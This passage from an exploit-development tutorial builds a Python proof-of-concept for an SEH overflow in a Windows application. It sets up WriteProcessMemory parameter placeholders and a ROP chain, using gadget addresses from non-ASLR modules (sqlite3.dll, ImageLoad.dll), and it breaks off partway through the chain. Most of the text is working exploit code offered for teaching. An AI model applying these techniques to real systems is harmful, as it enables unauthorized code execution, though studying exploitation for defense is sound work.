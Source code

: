 `lpBaseAddress` will be the address of our shellcode, as already outlined by the "return" parameter.

```python
crash += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
```

`lpBuffer` will be a pointer to our shellcode (which will first need to be written to the stack). We will dynamically resolve this with ROP gadgets.

```python
crash += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
```

`nSize` will be the size of our shellcode.

```python
crash += struct.pack('<L', 0x1004D740)    # lpNumberOfBytesWritten = writable location (.idata section of ImageLoad.dll address in a code cave)
```

Lastly, `lpNumberofBytesWrittne` will be any writable address.

Let's ROP v2!
---

We will be using what some have dubbed the "pointer" method of ROP (when it comes to x86 at least), where we will place these parameter "placeholders" on the stack and then dynamically change what these parameters point to in order to make a successful function call. Here is the PoC we will be using.

```python
import sys
import os
import socket
import struct

# 4063 byte SEH offset
# Stack pivot lands at padding buffer to SEH at offset 2563
crash = "\x90" * 2563

# Stack pivot lands here
# Beginning ROP chain

# Saving address near ESP for relative calculations into EAX and ECX
# EBP is near stack address
crash += struct.pack('<L', 0x61c05e8c)    # xchg eax, ebp ; ret: sqlite3.dll (non-ASLR enabled module)

# EAX is now 0xfec bytes away from ESP. We want current ESP + 0x28 (to compensate for loading EAX into ECX eventually) into EAX
# Popping negative ESP + 0x28 into ECX and subtracting from EAX
# EAX will now contain a value at ESP + 0x24 (loading ESP + 0x24 into EAX, as this value will be placed in EBP eventually. EBP will then be placed into ESP - which will compensate for ROP gadget which moves EAX into EAX vai "leave")
crash += struct.pack('<L', 0x10018606)    # pop ecx, ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0xffffefe0)    # Negative ESP + 0x28 offset
crash += struct.pack('<L', 0x1001283e)    # sub eax, ecx ; ret: ImageLoad.dll (non-ASLR enabled module)

# This gadget is to get EBP equal to EAX (which is further down on the stack)  - due to the mov eax, ecx ROP gadget that eventually will occur.
# Said ROP gadget has a "leave" instruction, which will load EBP into ESP. This ROP gadget compensates for this gadget to make sure the stack doesn't get corrupted, by just "hopping" down the stack
# EAX and ECX will now equal ESP - 8 - which is good enough in terms of needing EAX and ECX to be "values around the stack"
crash += struct.pack('<L', 0x61c30547)    # add ebp, eax ; ret sqlite3.dll (non-ASLR enabled module)
```
